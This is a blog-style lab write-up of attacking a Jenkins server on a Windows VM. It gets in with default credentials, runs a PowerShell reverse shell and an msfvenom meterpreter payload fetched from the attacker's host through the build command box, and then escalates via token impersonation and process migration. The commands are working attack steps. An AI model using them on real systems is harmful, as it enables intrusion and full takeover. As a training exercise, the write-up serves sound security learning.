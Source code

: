 ```yaml
---
title: "jenkins"
date: 2022-01-08T14:37:40-05:00
draft: false
---
```


if you've worked in any sort of SaaS/tech company, odds are you've used a CI/CD (continuous integration/continuous delivery and deployment) and DevOps tool. CI/CD is a method used to deliver apps to customers and clients by introducing automation into the stages of app development. it allows orgs to ship software "quickly" and "efficiently" (i used scare quotes because...well, if you've worked in a software company you'll know why). i'm going to see if i can try to exploit a common security misconfiguration on one of these tools, jenkins, then try to escalate privilege to get full system access.


## the difference between CI and CD

**CI**: involves devs making small changes and checks to their code. the scale of these changes can be huge so the process is automated to ensure that teams can build, test, and package their apps in a reliable way. CI can also help to streamline code changes.

**CD (continuous delivery)**: this is the automated delivery of completed code to environments like testing and development. 

**CD (continuous deployment)**: every change that passes the automated tests is automatically placed in production, resulting in many production deployments. this is the ultimate goal of many companies, given they're not constrained by regulatory or compliance requirements. 

![cicd](/CICD-DevOps.png)


## jenkins

jenkins is an open-source CI/CD automation software, written in java. it's used to implement CI/CD workflows, called pipelines. 

pipelines automate testing and reporting on isolated changes in a larger code base (in real time) and facilitates integration of disparate branches of code into a main branch. pipelines also rapidly detect defects in a code base, build the software, automate testing of builds, prepare code base for deployment/delivery, and ultimately deploy code to containers and virtual machines (as well as bare metal and cloud servers). 


for this experiment, i've spin up a windows VM that hosts the jenkins instance, and try to attack it from my kali VM. 

once everything is set up, let's start with a simple nmap scan of the target machine.

```
nmap -sT -Pn -v 10.10.77.68
```

![nmap](/jenkins-nmap.png)

the service at port 8080 is the jenkins server. to visit it, simply enter http://10.10.77.68:8080. at the login page, i'll enter my credentials (admin:admin) [note: default credentials for jenkins are usually admin:password or admin:admin] and be taken to the jenkins dashboard. there you'll see a "project" that was created just for this experiment.

![dashboard](/jenkins-dashboard.png)


since this is a windows application, i'll use the [nishang](https://github.com/samratashok/nishang) repo for a script, more specifically [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. nishang also contains a whole bunch of scripts for initial access, enumeration, and privesc so check them all out if you'd like. 

in kali, i created a directory to download the script to.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

now let's create a simple web server so that this script can be downloaded into jenkins.

```
python -m SimpleHTTPServer 80
```


back in jenkins, if you click "project" > configure > build, you'll see a command box that lets you execute any command. 

![build](/jenkins-build.png)

first, start a netcat listener in kali.

```
nc -lvnp 9001
```

in the jenkins command box, enter the following command to download the powershell script to the target. remember to use the address of the HTTP server that was created.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.4.75:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.4.75 -Port 9001
```

save the build, then click "build now" from the project page. the netcat listener will receive a connection to the target.

![netcat](/jenkins-netcat.png)


to make privesc easier, it's better to switch to a meterpreter shell.

first, create an msfvenom payload in the same directory we saved the powershell script to.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.4.75 LPORT=9002 -f exe -o jenkins.exe
```

download it to the machine similar to how we did it before, via the HTTP server and the build command box.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.4.75:8000/jenkins.exe','jenkins.exe')"
```

save this build, but before building, let's create a handler in metasploit to receive the connection.

```
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST 10.9.4.75
> set LPORT 9002
> run
```

back in jenkins, once you build and the payload has been downloaded to target, in the msfconsole shell type the following to get the meterpreter shell.

```
> Start-Process "jenkins.exe"
```


## token impersonation to gain system access

windows uses tokens to ensure accounts have the right privileges to carry out certain actions. tokens are assigned to an account when users log in or when they're authenticated. this is usually done by ```LSASS.exe```, generates the process responsible for authenticating users for the WINLOGON service. this is performed by using authentication packages like ```msgina.dll```. 

once authentication is successful, LSASS generates the user's access token, which is used to launch the initial shell. other processes the user initiates then inherit this token.

the user's access token consists of: user SIDs, group SIDs, privileges. you can read more about access tokens [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

there are 2 types of access tokens:
1. primary access tokens: associated with a user account, generated on log on
2. impersonation tokens: allow a particular process to use the token of another

the different levels of impersonation tokens:
- **SecurityAnonymous**: current user/client cannot impersonate another user/client
- **SecurityIdentification**: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- **SecurityImpersonation**: current user/client can impersonate the client's security context on the local system
- **SecurityDelegation**: current user/client can impersonate the client's security context on a remote system

security context refers to the data structure that contain users' relevant security information.

privileges of an account allow the user to carry out particular actions. 
the most commonly abused privileges are:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

you can read more about them [here](https://www.exploit-db.com/papers/42556).


back in the meterpreter shell, we can check privs easily.

```
> whoami /priv
```

2 privileges should show up: SeDebugPrivilege and SeImpersonatePrivilege. let's use incognito mode to exploit this.

```
> load incognito
```

to check which tokens are available to us:
```
> list_tokens -g
```

the token **BUILTIN\Administrators** is available. impersonating it should be easy.

```
> impersonate_token "BUILTIN\Administrators"
```

it's good practice to double check privileges. 

```
> getuid
```

although we now have a higher privilege token, we may not actually have higher privilege permissions. windows uses a primary token of the process and not the impersonated token to determine what the process can do. so, we just migrate to a process with correct permissions. the safest process to pick is usually ```services.exe```.

```
> ps
> migrate <PID>
```

we've now migrated to an elevated process using its process ID (PID).


so, there it is. we exploited jenkins to further exploit security misconfigurations to get root access on the target system. pretty cool!












